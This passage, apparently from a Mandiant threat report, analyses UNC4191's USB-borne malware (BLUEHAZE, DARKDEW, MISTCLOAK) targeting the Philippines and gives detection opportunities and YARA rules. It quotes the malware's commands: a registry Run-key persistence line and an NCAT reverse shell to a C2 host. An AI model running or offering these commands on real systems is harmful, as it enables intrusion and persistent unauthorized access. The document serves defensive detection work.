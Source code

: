 C:\Users\Public\Libraries\CNNUDTV\ and then executes a renamed NCAT executable wuwebv.exe to create a reverse shell to the hard-coded command and control (C2) address: closed[.]theworkpc[.]com:80 (T1059). Mandiant has not observed evidence of reverse shell interaction; however, based on the age of the activity, this may be a result of visibility gaps or short log retention periods.Table 9: BLUEHAZE command executionDateCheck.exe >  "cmd.exe /C reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v ACNTV /t REG_SZ /d \"Rundll32.exe SHELL32.DLL,ShellExec_RunDLL \"C:\\Users\\Public\\Libraries\\CNNUDTV\\DateCheck.exe\"\" /f"  cmd.exe /c copy *.* C:\\Users\\Public\\Libraries\\CNNUDTV\\"  cmd.exe /C wuwebv.exe -t -e c:\\windows\\system32\\cmd.exe closed.theworkpc[.]com 80 Outlook and ImplicationsBased on available data, such as PE compile timestamps for the malware involved in the aforementioned activity, this campaign potentially extends back to September 2021. Given the worming nature of the malware involved, we may have detected the later stages of this malware’s proliferation.We believe this activity showcases Chinese operations to gain and maintain access to public and private entities for the purposes of intelligence collection related to China’s political and commercial interests. Our observations suggest that entities in the Philippines are the main target of this operation based on the number of affected systems located in this country that were identified by Mandiant. Campaign Tracking Mandiant will continue to monitor UNC4191’s campaign and will provide notable and dynamic updates regarding changes in tactics and techniques, the introduction of tools with new capabilities, or the use of new infrastructure to carry out their mission.   For more insights into how Mandiant tracks this and similar campaigns, see our Threat Campaigns feature within Mandiant Advantage Threat Intelligence.Detection OpportunitiesEach Mandiant threat hunting discovery is evaluated for opportunities to create new real-time detections. These detections help Mandiant identify additional activity across our customers’ environments for rapid escalation and triage analysis and aim to reduce threat actor dwell time. Following our initial campaign discovery, we immediately searched the entire Managed Defense customer base for any activity that matched our atomic indicators of interest, including filenames, file paths, file hashes, IP addresses, domains, and other artifacts. This uncovered activity on systems at multiple customers. Additionally, we also created or updated real-time Managed Defense detections to identify threat actor methodologies, such as: Deployment or usage of NETCAT and NCAT reverse shells Modification of registry Run keys for malware persistence, with arguments configured to execute the Windows binary rundll32.exe Processes launched from the C:\Users\Public\Libraries\ directory By combining Mandiant’s threat intelligence service with Managed Defense’s detection engineering and threat hunting capabilities, we can rapidly identify and provide context around malicious activity. Detection Opportunity MITRE ATT&CK Event Details NCAT reverse shell execution arguments T1059 wuwebv.exe -t -e c:\\windows\\system32\\cmd.exe closed.theworkpc[.]com 80 Parent or grandparent processes executing from Non-C:\ Drive Root T1091, T1036 Process: D:\USB Drive.exe  Child Processes: > explorer.exe  "D:\autorun.inf\Protection for Autorun" > c:\programdata\udisk\disk_watch.exe > c:\programdata\udisk\DateCheck.exe  Grandchild Processes: >> "cmd.exe /C reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v ACNTV /t REG_SZ /d \"Rundll32.exe SHELL32.DLL,ShellExec_RunDLL \"C:\\Users\\Public\\Libraries\\CNNUDTV\\DateCheck.exe\"\" /f" >> cmd.exe /c copy *.* C:\\Users\\Public\\Libraries\\CNNUDTV\\" >> cmd.exe /C wuwebv.exe -t -e c:\\windows\\system32\\cmd.exe closed.theworkpc[.]com 80 Registry Run key persistence for binary in PROGRAMDATA T1060 Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run  Value: udisk  Text: c:\programdata\udisk\disk_watch.exe Registry Run key executing RunDLL32 command T1218.011, T1060  reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v ACNTV /t REG_SZ /d \"Rundll32.exe SHELL32.DLL,ShellExec_RunDLL \"C:\\Users\\Public\\Libraries\\CNNUDTV\\DateCheck.exe\"\" /f" File name of executing process doesn’t match original name T1036, T1574.002 OriginalFileName: UsbConfig.exe File Name: Removable Disk.exe, USB Drive.exe  OriginalFileName: RzCefRenderProcess.exe File Name: DateCheck.exe Windows Explorer process execution with folder path specified on command line T1091 Parent Process Path: D:\USB Drive.exe Process: explorer.exe Command Line: explorer.exe  "D:\autorun.inf\Protection for Autorun" Mandiant Security Validation Actions Organizations can validate their security controls using the following actions with Mandiant Security Validation.VID Name  A105-454 Protected Theater - UNC4191, BLUEHAZE, Execution, Variant #1  A105-455 Protected Theater - UNC4191, DARKDEW, Execution, Variant #1  A105-466 Command and Control - UNC4191, DNS Query, Variant #1 YARA RulesMISTCLOAKrule M_Hunting_Launcher_MISTCLOAK_1 {     meta:         author = "Mandiant"     strings:         $s1 = "CheckUsbService" ascii         $s2 = "new\\u2ec\\Release\\u2ec.pdb" ascii         $s3 = "autorun.inf\\Protection for Autorun" ascii     condition:         uint16(0) == 0x5a4d and         filesize < 200KB and         (2 of ($s*)) } DARKDEWrule M_Hunting_Dropper_DARKDEW_1 {     meta:         author = "Mandiant"     strings:         $s1 = "do inroot" ascii         $s2 = "disk_watch" ascii         $s5 = "G:\\project\\APT\\" ascii         $s3 = "c:\\programdata\\udisk" ascii         $s4 = "new\\shellcode\\Release\\shellcode.pdb" ascii     condition:         filesize < 500KB and         (2 of ($s*)) } BLUEHAZErule
